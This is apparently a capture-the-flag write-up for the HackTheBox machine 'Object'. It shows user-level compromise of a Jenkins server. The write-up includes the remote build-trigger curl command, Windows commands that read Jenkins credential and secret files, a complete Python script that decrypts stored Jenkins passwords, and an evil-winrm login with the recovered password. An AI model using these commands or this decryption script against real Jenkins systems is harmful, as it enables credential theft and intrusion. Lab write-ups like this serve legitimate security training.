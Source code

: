 # Obejct (Full Pwn)

## User

Starting with nmap to scan for open we have have 2 ports open, 80 and 8080.

![nmap](0.png)

In port 80 there is nothing interesting so we move to port 8080 which is a jenkins ci/cd platform.

![jenkins_landing_page](1.png)

We create a new account to use jenkins for building new projects. We create a new project with name test2. In the configuration page we set the Build Triggers to Trigger Build remotely and add the authentication token with name test. At Build section we add an Execute Windows Batch Command and add the command whoami. Then save the project.

![jenkins_landing_page](3.png)
![jenkins_landing_page](3.1.png)

Next we create the API token, in My Views -> New View -> Configure.

![jenkins_landing_page](4.png)

Finally we can run the request to build remotely with the API token.

` curl http://test:114adaa6de596d28727346566f6c6d7d84@object.htb:8080/job/test2/build?token=test `

Going to project test2 and see the last build and check the console output.

![jenkins_landing_page](6.png)


We got command execution. 

We then must find where the admins credentials locate with ` where ` command:

` where /R c:\users\oliver\AppData\Local\Jenkins *.xml `

We got the admin_17207690984073220035 directory and we just read the xml file to get the credentials.

` cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml" `

![jenkins_landing_page](7.png)

` oliver:AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA= `

We also need the master.key and hudson.util.Secret to decrypt the password

` cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key" `

` powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c" `

Now we can decrypt oliver's password.

``` 
import re, sys, base64
from hashlib import sha256
from binascii import hexlify, unhexlify
from Crypto.Cipher import AES

def decryptNewPassword(secret, p):
    p = p[1:] #Strip the version
    iv_length = ((p[0] & 0xff) << 24) | ((p[1] & 0xff) << 16) | ((p[2] & 0xff) << 8) | (p[3] & 0xff)
    p = p[4:]
    data_length = ((p[0] & 0xff) << 24) | ((p[1] & 0xff) << 16) | ((p[2] & 0xff) << 8) | (p[3] & 0xff)
    p = p[4:]
    iv = p[:iv_length]
    p = p[iv_length:]
    o = AES.new(secret, AES.MODE_CBC, iv)
    decrypted_p = o.decrypt(p)

    fully_decrypted_blocks = decrypted_p[:-16]
    possibly_padded_block = decrypted_p[-16:]
    padding_length = possibly_padded_block[-1]
    if padding_length <= 16: # Less than size of one block, so we have padding
        possibly_padded_block = possibly_padded_block[:-padding_length]

    pw = fully_decrypted_blocks + possibly_padded_block
    return pw


hudson_secret_key = open("hudson.util.Secret", 'rb').read()
hashed_master_key = sha256(b"f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19").digest()[:16]
o = AES.new(hashed_master_key, AES.MODE_ECB)
secret = o.decrypt(hudson_secret_key)
print(secret)

secret = secret[:-16]
secret = secret[:16]


password = base64.b64decode("AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=")

print(decryptNewPassword(secret, password).decode())
```

After the password decrypting we can evil-winrm to the machine as oliver.

` evil-winrm -i object.htb -u oliver -p c1cdfun_d2434 `

We can grab the user flag.

` type C:\Users\oliver\Desktop\user.txt `

**HTB{c1_cd_c00k3d_up_1337!}**